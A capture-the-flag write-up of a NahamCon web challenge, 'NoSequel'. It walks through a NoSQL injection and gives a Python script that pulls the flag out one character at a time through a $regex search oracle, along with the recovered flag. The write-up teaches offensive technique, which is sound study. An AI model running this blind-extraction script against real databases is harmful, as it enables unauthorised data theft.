





# NoSequel

## Description

> It always struck me as odd that none of these movies ever got sequels! Absolute cinema.

## Solution

Challenge name suggests we should focus on NoSQL injection 🤔



It even gives us an example! We can check the [Portswigger labs](https://portswigger.net/web-security/nosql-injection) on this topic for some exploitation ideas, [hacktricks](https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html) for some quick payloads.

When sending:



```json
query={"$ne":null}&collection=movies
```



The server responds `unknown top level operator: $ne`

If we try and search the `flags` collection, it says `Only regex on 'flag' field is supported`

I tried to change the content-type to JSON and use some different payloads. We also want to test a search query that returns results, e.g. by using a movie title from the homepage. Doing this will give us a "true" condition that we could use to compare results later, if we need to extract the flag char by char.



When I try to enter `[$regex]=.{25}` as search query for the `flags` collection, it warns me to use a JSON format.



Using that format, we apply a regular expression to see if the flag begins with `flag`.



```
flag: {$regex: ^flag}
```





It does! So we can just write a python script to loop through all possible hex chars, since we know the flag format from previous challenges; `flag{[0-9a-f]{32}}`.

I just finished a 72 hour OSWE exam which required automating exploit chains into a 1-click-pwn script _without_ help from an LLM. Since that is finished, I'll make life easier for myself 😁



```python
import requests
import string

# Config
url = "http://challenge.nahamcon.com:31786/search"
charset = "0123456789abcdef"
flag_prefix = "flag{"
flag = flag_prefix
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

def test_candidate(candidate):
    payload = {
        "query": f'flag: {{$regex: ^{candidate}}}',
        "collection": "flags"
    }
    response = requests.post(url, data=payload, headers=headers)
    return "Pattern matched" in response.text

while not flag.endswith("}"):
    found = False
    for ch in charset:
        attempt = flag + ch
        print(f"[?] Trying: {attempt}")
        if test_candidate(attempt):
            print(f"[+] Match: {attempt}")
            flag += ch
            found = True
            break
    if not found:
        print("[-] No match found. Trying closing brace '}'...")
        if test_candidate(flag + "}"):
            flag += "}"
            print(f"[✓] Flag complete: {flag}")
            break
        else:
            print("[-] Could not extend flag — possibly an error.")
            break

print(f"[🏁] Final flag: {flag}")
```



It works, we get the flag 😎



Flag: `flag{4cb8649d9ecb0ec59d1784263602e686}`
